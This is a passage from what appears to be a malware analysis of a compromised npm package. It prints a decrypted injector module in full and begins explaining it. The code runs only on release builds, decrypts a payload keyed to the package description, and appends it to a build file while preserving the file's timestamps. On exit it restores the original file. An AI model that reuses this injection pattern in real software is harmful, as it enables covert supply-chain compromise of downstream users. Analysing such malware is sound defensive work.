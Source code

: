 ```javascript
        --extract-css true 
        --named-chunks false 
        --build-optimizer true",
"build:desktop-release": 
    "npm run env:desktop 
        && node 
        --max-old-space-size=8192 
        ./path/ionic-app-scripts.js build 
        --prod"
}
```

After successful decryption of the first line of the data file from
payload A, payload B is created as a new module. Payload B acts as the
injector. This new unobfuscated module looks as follows:

```javascript
/*@@*/
module.exports = function(e) {
  try {
      if (!/build\:.*\-release/.test(process.argv[2])) return;
      var t = process.env.npm_package_description,
          r = require("fs"),
          i = "/path/ReedSolomonDecoder.js",
          n = r.statSync(i),
          c = r.readFileSync(i, "utf8"),
          o = require("crypto").createDecipher("aes256", t),
          s = o.update(e, "hex", "utf8");
      s = "\n" + (s += o.final("utf8"));
      var a = c.indexOf("\n/*@@*/");
      0 <= a && (c = c.substr(0, a)), 
        r.writeFileSync(i, c + s, "utf8"), 
        r.utimesSync(i, n.atime, n.mtime), 
        process.on("exit", function() {
          try {
              r.writeFileSync(i, c, "utf8"), 
                r.utimesSync(i, n.atime, n.mtime)
          } catch (e) {}
      })
  } catch (e) {}
};
```

We start with line four:

```javascript
if (!/build\:.*\-release/.test(process.argv[2])) return;
```

The script is being run by a command in this format:

```javascript
npm run-script script-name
```
